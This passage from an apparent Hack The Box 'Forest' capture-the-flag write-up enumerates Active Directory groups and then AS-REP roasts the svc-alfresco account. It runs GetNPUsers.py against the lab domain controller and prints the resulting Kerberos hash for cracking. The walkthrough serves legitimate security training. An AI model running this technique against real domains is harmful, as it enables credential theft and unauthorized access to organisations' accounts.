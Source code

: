 ```c#
group:[Exchange Servers] rid:[0x45e]
group:[Exchange Trusted Subsystem] rid:[0x45f]
group:[Managed Availability Servers] rid:[0x460]
group:[Exchange Windows Permissions] rid:[0x461]
group:[ExchangeLegacyInterop] rid:[0x462]
group:[$D31000-NSEL5BRJ63V7] rid:[0x46d]
group:[Service Accounts] rid:[0x47c]
group:[Privileged IT Accounts] rid:[0x47d]
group:[test] rid:[0x13ed]
```
<br>

- Domain name: `htb.local`
- Forest name: `htb.local`
- Computer name: `FOREST`
- Create **users.txt** with the user names
- Let's use `GetNPUsers.py` to see if any user has pre authentication disabled

## Initial Foothold

```js
➜  forest GetNPUsers.py -dc-ip 10.10.10.161 htb.local/
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2023-01-19 18:31:16.073285  2019-09-23 16:39:47.931194  0x410200
```
<br>

- Looks like `svc-alfresco` account is AS-Rep Roastable, because pre-authentication is disabled for him, so we can request a ticket

<br>
<iframe width="560" height="315" src="https://www.youtube.com/embed/pZSyGRjHNO4" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>
<br>

- If you want to know how this attack and `GetNPUsers.py` script is working under the hood, then I'd recommend you to watch this video

<br>

```js
➜  forest GetNPUsers.py -dc-ip 10.10.10.161 htb.local/ -request
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2023-01-19 18:31:16.073285  2019-09-23 16:39:47.931194  0x410200



$krb5asrep$23$svc-alfresco@HTB.LOCAL:f66921928fc0adb11fd1f06ecb523668$be875c2c0fa9ad1b3376c582651c71c36c1b4e9a3cf944e454e5ce30e4ee4524edcae4bfe35ee99101030a477f1790b604d259137c878ffd30e52c33f1485b35080827d92872da82262295e243c9bff0684d8ea7b1a1eec1aa95eaf95d0d16e94970dc98c367ef0b7fcd65ff78e6c32ff7f6a821df67599409704f20bfc21a90e12115ee6412c42dbf0812fa4a1fdaec71c69dd6496c561915602a224ad7fc1c642fde63c179cae977754e3faad762408053146a15a9b05d3fab70f28989c1cd7de2bd812e917556dacd6e54dae58d1fa900486cab328e4f64ee344383237c77f5b6e4b4efd3
```